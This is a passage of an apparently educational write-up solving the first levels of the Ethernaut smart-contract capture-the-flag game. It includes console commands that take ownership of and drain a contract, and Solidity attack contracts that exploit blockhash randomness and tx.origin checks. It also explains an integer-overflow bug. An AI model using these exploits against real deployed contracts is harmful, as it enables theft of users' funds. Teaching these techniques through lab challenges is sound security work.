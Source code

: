 # Ethernaut-Solution

Here I am uploading the solutions to the Ethernaut Challenges to which the link is given below

https://ethernaut.openzeppelin.com/

## 1) **Hello Ethernaut**

This challenge is created to make you familiar with the interface. Here you will learn about the commands that will be helpful while playing the CTF. At this level you will also be setting up the Metamask. Once you are done with all these steps you have to find the passkey that you have to enter to pass this challenge. Also you have to find out the method using which you have to submit the password and if you have followed the ninth step then you must be having it.And still if you do not have the method name then below commands will lead you to the method name.

a) ```await contract.info()```<br/>
b) ```await contract.info1()```<br/>
c) ```await contract.info2("hello")```<br/>
d) ```await contract.infoNum()```<br/>
e) ```await contract.info42()```<br/>
f) ```await contract.theMethodName()```<br/>
g) ```await contract.method7123949()```<br/>


Now to get the passkey below is the solution

First enter the ```contract.abi``` command that helps you interact with the deployed code and come to know about it's functions. When going through the result of the above command you must have find the 'password' method, that will return the passkey to solve the challenge. So enter the ```await contract.password()``` command and you will find the passkey.

Now you have both method name and the passkey. Go and submit the passkey and the challenge will get completed.

## 2) **Fallback**

From the name of the challenge, you can easily interpret that it's related to fallback function.The challenge requires us to claim the ownership of the contract and reduce it's balance to 0.

In this contract we can claim the ownership of the contract using two functions:<br/>
a) contribute<br/>
b) receive()<br/>

In order to claim ownership using contribute function, you will require large amount of ethers.So that's not practically possible and also it's require statement will revert the transaction, even if you send the required ethers.The only way left is using receive() function.This function will get executed on calls to the contract with no data (calldata), e.g. calls made via send() or transfer().
But it also have prerequisite that msg.sender must be having some of there balance in the contract.

For this we will first call contribute function with 0.00001 ether(because amount should be less than 0.001 ether) using javascript console(Press Ctrl+Shift+I in windows)

```contract.contribute({value:"10000000000000"})```

Then we will use send method to trnasfer some ethers to the contract

```contract.send("10000000000000")```

Now you must be the owner of the contract if you have followed the above solution properly.You can check it using the following command

```await contract.owner()```

Now to withdraw the entire balance use withdraw function.

```await contract.withdraw()```

Hurray!!! The Challenge have been completed.

## 3) **Fallout**

This is one of the easiest challenge among all. It just need good observation power to solve this challenge.

In the previous versions of solidity constructor was defined with the same name as of the contract and that's where the developer have done the mistake.

The spelling of constructor name is wrong because of which it's no longer a constructor but a normal function that can be called by anyone.

By calling this function we can gain the ownership of the given contract.The command for the same is

```contract.Fal1out()```

## 4) **Coin Flip**

This challenge exploits the blockchain’s inability to generate pseudo random number. In this challenge we have to predict the output which is based on previous blockhash.The following contract can be used to exploit the challenge.

```
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;
 
contract coinflip_solutions{
    address victim = <<Instance Address>>;
    uint factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
 
    function solve() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / factor;
        bool side = coinFlip == 1 ? true : false;
 
        bytes memory payload = abi.encodeWithSignature("flip(bool)",side);
        (bool success, ) = victim.call(payload);
        require(success, "Transaction submitted");
    }
}
```

In the above contract the first three lines of solve function is used to compute the answer. In the next line we have created a function signature to submit the answer. Then the transaction is being called  with the help of call method.
This challenge also ensures that no consecutive blockhash are same.So while calling the solve function make sure that there is some time difference otherwise transaction will get reverted.

## 5) **Telephone**

This challenge will be solved by calling the changeOwner() function from another contract because require statement states that tx.origin should not be equal to msg.sender.Below is the attack contract

```
//SPDX-License-Identifier:MIT
 
pragma solidity ^0.8.0;
 
contract telephone_solution{
 
    address victim = <<instance address>>;
    address new_owner = <<your address>>;
 
    function solve() public{
 
        bytes memory payload = abi.encodeWithSignature("changeOwner(address)",new_owner);
        (bool success, ) = victim.call{value: 0 ether}(payload);
        require(success, "Transaction successful");
 
    }
}
```

In the above contract, the first statement of solve() function cretes a function signature. In the next statement the changeOwner() function is being called using call method.

This challenge explains the difference between tx.origin and msg.sender.The tx.origin refers to the address, from which the transaction has been originated and it can never be a contract address while msg.sender gives the immediate previous address form which the transaction has passed over.For example 

A -> B -> C

In the above case, at point C msg.sender will be B and tx.origin will be A.

## 6) **Token**

The contract at this level is vulnerable to a very well known integer overflow vulnerability. It is also among the some of the easiest challenges of this CTF.You just need to transfer more than the available tokens from the contract and you will be having a very large amount of tokens corresponding to your address.

Every integer data type have certain range that it can store. In solidity, while performing mathematical operation if that range gets crossed then instead of throwing error it will again start the count either from start or end depending on the operation.
